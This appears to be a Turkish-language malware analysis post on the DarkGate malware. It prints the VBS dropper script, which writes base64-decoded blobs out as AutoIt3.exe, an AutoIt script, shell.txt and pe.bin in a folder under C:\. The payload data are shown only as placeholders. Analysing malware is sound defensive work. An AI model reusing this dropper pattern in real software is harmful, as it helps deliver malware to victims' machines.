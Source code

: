 # DarkGate Malware İncelemesi

Selam! Bu yazıda DarkGate adlı kötücül yazılımın derinlemesine bir incelemesini yapacağız. DarkGate, kendini gizleyen bir VBS betiği ile başlayan, ardından AutoIt3 kullanarak pek çok zararlı faaliyeti gerçekleştiren karmaşık bir kötücül yazılımdır. Bu yazıda, DarkGate'in içeriğini ve çalışma mantığını detaylı bir şekilde inceleyeceğiz. Ayrıca, bu kötücül yazılımın nasıl engellenebileceğini de ele alacağız.

## Malware İçeriği
Malware örneğine ilk baktığımızda 1 adet vbs dosyası görüyoruz bu dosya çalıştırdığı anda yükleyiciyi çıkartıp malware içeriğinin çalışmasını sağlıyor. VBS dosyasını açtığımızda aşağıdaki gibi satırlar bizi karşılamakta.

```vb
ON ERROR RESUME NEXT
dim objShell, objFSO, objFileIn, objStreamIn, dataa,objXML,objDocElem,objStream,objFolder, appdatapath 
Set objShell = CreateObject( "WScript.Shell" )

appdatapath = "C:\" & objShell.ExpandEnvironmentStrings( "%COMPUTERNAME%" )
appdatapath = "C:\" & objShell.ExpandEnvironmentStrings( "%COMPUTERNAME%" )
appdatapath = "C:\" & objShell.ExpandEnvironmentStrings( "%COMPUTERNAME%" )
appdatapath = "C:\" & objShell.ExpandEnvironmentStrings( "%COMPUTERNAME%" )
Const foForReading          = 1 
Const foAsASCII             = 0 
Const adSaveCreateOverWrite = 2
Const adTypeBinary          = 1 

Set objFSO = CreateObject("Scripting.FileSystemObject")
Set objXML = CreateObject("MSXml2.DOMDocument")
Set objDocElem = objXML.createElement("Base64Data")
objFSO.CreateFolder(appdatapath)
objDocElem.DataType = "bin.base64"
Set objStream = CreateObject("ADODB.Stream")
objDocElem.text = "<data1>"
objStream.Type = adTypeBinary
objStream.Open()
objStream.Write objDocElem.NodeTypedValue
objStream.SaveToFile  appdatapath+"\AutoIt3.exe", adSaveCreateOverWrite

Set objFSO = CreateObject("Scripting.FileSystemObject")
Set objXML = CreateObject("MSXml2.DOMDocument")
Set objDocElem = objXML.createElement("Base64Data")
objDocElem.DataType = "bin.base64"
Set objStream = CreateObject("ADODB.Stream")
objDocElem.text = "<data2>"
objStream.Type = adTypeBinary
objStream.Open()
objStream.Write objDocElem.NodeTypedValue
objStream.SaveToFile appdatapath+"\test.au3", adSaveCreateOverWrite


Set objFSO=CreateObject("Scripting.FileSystemObject")
dim objFile 
Set objFile = objFSO.CreateTextFile(appdatapath+"\shell.txt",True)
objFile.Write "<data3>"
objFile.Close

Set objFSO=CreateObject("Scripting.FileSystemObject")
Set objFile = objFSO.CreateTextFile(appdatapath+"\pe.bin",True)
objFile.Write "<data4>"
objFile.Close
```